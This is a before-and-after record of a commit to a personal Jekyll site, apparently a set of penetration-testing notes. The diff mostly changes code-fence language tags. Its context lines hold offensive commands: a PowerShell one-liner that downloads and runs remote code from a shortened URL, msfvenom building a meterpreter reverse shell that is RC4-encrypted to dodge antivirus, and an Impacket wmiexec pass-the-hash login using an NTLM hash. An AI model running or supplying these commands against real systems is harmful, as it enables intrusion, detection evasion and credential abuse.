

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 3236 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -163,7 +163,7 @@ Find-LAPSDelegatedGroups
 
 #### PowerUp
 
-```cpp
+```py
 powershell.exe -nop -exec bypass
 Import-Module PowerUp.ps1
 Invoke-AllChecks | Out-File -Encoding ASCII Allchecks.txt
@@ -171,7 +171,7 @@ Invoke-AllChecks | Out-File -Encoding ASCII Allchecks.txt
 
 If you want to invoke everything without touching disk, use something like this:
 
-```cpp
+```py
 powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
 ```
 
@@ -305,7 +305,7 @@ powershell -Sta -Nop -Window Hidden -EncodedCommand <encodedCommand>
 
 ```py
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
-/cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
+//cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
 xxd -i encmeter.bin
 ```
 
@@ -325,6 +325,6 @@ echo $encodedcommand
 
 ##### Impacket
 Impacket is a collection of Python classes for working with network protocols
-```cpp
+```py
 proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes e353da88f9c4331504f70d471f0f9cb1:REDACTED a.user@10.10.120.1
 ```
````
